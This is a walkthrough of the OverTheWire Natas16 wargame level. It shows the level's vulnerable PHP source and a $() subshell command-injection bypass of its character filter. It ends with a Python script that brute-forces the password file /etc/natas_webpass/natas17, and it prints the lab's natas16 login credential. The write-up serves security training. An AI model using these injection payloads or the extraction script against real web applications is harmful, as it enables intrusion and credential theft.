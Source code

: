 # 🔐 Natas16 Walkthrough

This level is similar to Natas15, but now we have **extra restrictions**!  
Check the [source code](http://natas16.natas.labs.overthewire.org/index-source.html):

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
## 🚫 Forbidden Characters  

The following characters are **blocked**, so we can’t use them for command injection:  

| 1  | 2  | 3  | 4  | 5  | 6  | 7  | 8  | 9  | 10  |
|----|----|----|----|----|----|----|----|----|-----|
| `/` | `[` | `]` | `;` | `\|` | `&` | `'` | `"` | `\` | `` ` `` |




**Good news:**  The `$` character is **still allowed**—that’s our way in!  


 ## 🌀 Subshell

Since `` '/[;|&`\'"]/' `` are forbidden, we can’t directly inject multiple commands. Luckily, the `$()` syntax is allowed, which executes a command inside a subshell. A ***subshell*** is a way to execute a command inside another command in the shell. Whatever the subshell outputs can then be used or appended in the outer command.

<div align="center">
  <img src="diagram-1.png" alt="Diagram">
</div>


## 🔍 Testing a character
Input:
```shell
$(grep e /etc/natas_webpass/natas17)squid
```


- If **e** is in the password, squid does not appear in the output. ✅

- If **e** is not, squid appears. ❌

This way, we can test each possible character in the password **without using the forbidden characters.** 


***Test:***


| INPUT    | OUTPUT |
| -------- | ------- |
| $(grep **e** /etc/natas_webpass/natas17)squid| None    |
| $(grep **a** /etc/natas_webpass/natas17)squid | squid, squid's, squidded, squidding, squids    |



Clearly, the password contains `e` and **doesnt** contain `a`. Now, as before we shall automate this process.

## Python script

This script was written with readability in mind. I've added slightly altered version of the script to this directory which has some "animations" in the console log so, feel free to use that one.

```python
import requests
import string
import time

# =====================
# === CONFIGURATION ===
# =====================
url = "http://natas16.natas.labs.overthewire.org/"
authUsername = "natas16"
authPassword = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

# Possible characters in the password (letters + digits)
charData = string.ascii_letters + string.digits

# =====================================
# === STEP 1: Find valid characters ===
# =====================================

matchingCharData = ""  # This will hold characters that exist in the password

print("Step 1: Testing which characters exist in the password...\n")

for i in charData:
    # Create the payload using subshell injection.
    # "$(grep <char> /etc/natas_webpass/natas17)squid" will execute grep on the password file.
    # If <char> exists in the password, 'squid' will NOT appear in the response.
    injection = f"$(grep {i} /etc/natas_webpass/natas17)squid"
    tempUrl = f"{url}?needle={injection}&submit=Search"

    # Send the HTTP GET request with basic auth
    response = requests.get(tempUrl, auth=(authUsername, authPassword))

    # Check response for presence of 'squid'
    if 'squid' not in response.text:
        # Character exists in the password
        matchingCharData += i
        print(f"Valid character found: '{i}'")

print(f"\nPossible password characters: {matchingCharData}\n")

# ==========================================
# === STEP 2: Brute-force password order ===
# ==========================================

password = ""  # To build the password incrementally
print("Step 2: Brute-forcing password character by character...\n")

# Natas passwords are 32 characters long
while len(password) < 32:
    for char in matchingCharData:
        # Attempt to see if the password starts with the current guess
        attempt = password + char
        injection = f"$(grep ^{attempt} /etc/natas_webpass/natas17)squid"
        tempUrl = f"{url}?needle={injection}&submit=Search"

        response = requests.get(tempUrl, auth=(authUsername, authPassword))

        if 'squid' not in response.text:
            # Correct next character found
            password += char
            print(f"Password so far: {password}")
            break  # Move to next character

# Print final password
print(f"\nPassword for natas17: {password}")
```

The output should be your natas17 password! (:


